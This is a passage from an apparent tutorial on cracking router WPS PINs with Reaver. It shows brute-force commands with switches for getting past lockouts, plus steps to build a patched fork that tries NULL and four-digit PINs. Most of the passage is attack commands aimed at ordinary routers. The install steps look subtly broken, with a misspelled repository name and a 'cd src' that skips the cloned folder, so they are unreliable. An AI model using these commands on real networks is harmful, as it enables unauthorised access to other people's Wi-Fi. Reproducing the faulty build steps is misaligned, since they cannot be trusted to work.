 As a countermeasure, a few optional switches can be added to get Reaver working on more picky devices:
```
reaver -i wlan0mon -c 11 -b 11:22:33:44:55:66 -vv -L -N -d 10 -T .5 -r 4:20
```
where

-c 11is channel 11

-L ignores locked WPS state

-N Don't send NACK packets when errors are detected

-d 10 Delay 10 seconds between PIN attempts

-T .5 sets timeout period to half a second

-r 4:20 after 4 attempts, sleep for 20 seconds

Simply type reaver if you to look for more options to experiment:

reaver

Reaver is armed with a pin "12345670" that appears not changing but in fact it is the starting point followed by subsequent variations to attack the router. Knowing that it is only a matter of time to strike a successful hit, clever designers put a NULL pin for which the traditional Reaver programmer had never expected. A patched version of reaver-wps-fork-t6x emerged in 2017 in the light of combating the NULL pin.

Installation was pretty straight forward on a newly created Reaver diractory:
```
mkdir reaver

cd reaver

git clone https://github.com/t6x/reaver-wps-furk-t6x.git

apt-get install -y libpcap-dev

cd src

./configure

make && make install
```
The -p option becomes available to foster a NULL pin or a digit sequence of various lengths.

NULL pin:
```
reaver -i wlan0mon -b 11:22:33:44:55:66 -vv -K 1 -p ""
```
Pin with a length of 4 digits:
```
reaver -i wlan0mon -b 11:22:33:44:55:66 -vv -K 1 -p "4321"
```



